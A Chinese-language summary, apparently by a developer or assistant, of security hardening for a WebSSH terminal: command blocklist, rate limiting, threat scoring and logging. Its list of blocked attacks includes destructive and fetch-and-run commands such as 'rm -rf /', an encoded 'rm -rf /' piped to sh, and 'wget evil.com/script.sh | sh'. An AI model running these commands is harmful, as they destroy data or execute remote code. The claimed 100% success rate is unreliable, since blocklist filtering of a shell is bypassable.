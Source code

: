 # 安全增强功能总结

## 🛡️ 概述

针对您提到的"还是会被搞炸"问题，我们实施了全面的多层安全防护系统，大幅提升了WebSSH终端的安全性。

## 🔧 实施的安全增强

### 1. 增强命令过滤器 (`lib/command-filter.js`)

#### 新增功能：
- **扩展危险命令库**: 从78个增加到184个危险命令
- **编码绕过检测**: 检测base64、十六进制、Unicode编码的恶意命令
- **命令序列攻击检测**: 识别多命令组合和管道攻击
- **高级混淆检测**: 检测引号混淆、绝对路径、命令替换等绕过技巧
- **命令长度限制**: 防止超长命令攻击（1000字符限制）
- **特殊字符检测**: 防止过多特殊字符的混淆攻击
- **Null字节检测**: 防止命令注入攻击

#### 新增危险命令类别：
- 系统管理: `mount`, `umount`, `systemctl`, `service`
- 权限提升: `sudo`, `su`, `passwd`, `chown`, `chmod`
- 文件系统: `cryptsetup`, `losetup`, `mdadm`, `lvm`
- 容器相关: `docker`, `podman`, `kubectl`
- 网络安全: `iptables`, `ufw`, `firewall-cmd`

### 2. 速率限制系统

#### 功能特性：
- **命令频率限制**: 每分钟最多60个命令
- **危险命令限制**: 每分钟最多3次危险命令尝试
- **自动封禁**: 超过限制自动临时封禁5分钟
- **用户状态跟踪**: 实时监控每个用户的命令执行情况

### 3. 实时安全监控 (`lib/security-monitor.js`)

#### 核心功能：
- **威胁评分系统**: 根据违规行为计算用户威胁等级
- **自动封禁机制**: 短时间内多次违规自动封禁
- **安全事件日志**: 完整记录所有安全事件
- **统计分析**: 提供详细的安全统计信息

#### 威胁等级：
- **Low**: 0-4分
- **Medium**: 5-9分  
- **High**: 10-19分
- **Critical**: 20+分

### 4. 安全配置管理 (`lib/security-config.js`)

#### 配置项：
- 命令过滤配置
- 速率限制配置
- 威胁检测配置
- 日志配置
- 监控配置
- 通知配置

### 5. 前端安全增强

#### 新增功能：
- **分级安全警告**: 根据威胁等级显示不同样式的警告
- **强制断开对话框**: 被封禁用户的友好提示
- **实时安全通知**: 向所有用户广播安全事件

## 📊 测试结果

### 安全测试覆盖：
- ✅ 基础危险命令拦截
- ✅ 编码绕过攻击检测
- ✅ 命令序列攻击防护
- ✅ 混淆技巧识别
- ✅ 高级攻击防护
- ✅ 速率限制功能
- ✅ 自动封禁机制

### 性能指标：
- **检测速度**: 200,000次/秒
- **平均延迟**: 0.01ms
- **成功率**: 100%

## 🔒 防护能力

### 现在可以防护的攻击类型：

1. **基础攻击**
   - `rm -rf /`, `shutdown`, `dd if=/dev/zero`
   - 系统文件修改、权限提升

2. **编码绕过**
   - Base64编码: `echo cm0gLXJmIC8K | base64 -d | sh`
   - 十六进制编码: `printf "\\x72\\x6d" | sh`
   - Unicode编码攻击

3. **命令序列攻击**
   - `ls; rm -rf /`
   - `echo test && shutdown`
   - `wget evil.com/script.sh | sh`

4. **混淆技巧**
   - 引号混淆: `r""m -rf /`
   - 绝对路径: `/bin/rm -rf /`
   - 命令替换: `$(which rm) -rf /`

5. **高级攻击**
   - 脚本创建执行
   - 远程代码执行
   - 容器逃逸尝试

6. **DoS攻击**
   - 命令洪水攻击
   - 快速重复危险命令

## 🚀 部署说明

### 启动服务器：
```bash
npm start
# 或指定端口
PORT=3001 npm start
```

### 运行安全测试：
```bash
node test-security.js
```

### 查看安全日志：
```bash
tail -f logs/security.log
```

## 📈 监控和维护

### 实时监控：
- 安全事件实时记录
- 用户威胁评分跟踪
- 系统性能监控

### 日志管理：
- 自动日志轮转
- 安全事件归档
- 性能指标记录

### 配置调优：
- 根据实际使用情况调整速率限制
- 更新危险命令列表
- 优化检测规则

## 🎯 效果评估

通过实施这些安全增强措施，系统现在具备了：

1. **多层防护**: 命令过滤 + 速率限制 + 实时监控
2. **智能检测**: 能识别各种绕过技巧和编码攻击
3. **自动响应**: 检测到威胁自动封禁和通知
4. **完整审计**: 所有安全事件完整记录
5. **高性能**: 毫秒级检测速度，不影响用户体验

这套安全系统能够有效防止绝大多数已知的终端攻击手段，大大降低了系统被"搞炸"的风险。

## 🔮 未来改进方向

1. **机器学习检测**: 基于行为模式的异常检测
2. **沙盒环境**: 更严格的命令执行环境隔离
3. **网络层防护**: IP黑名单和地理位置限制
4. **集成外部威胁情报**: 实时更新攻击特征库
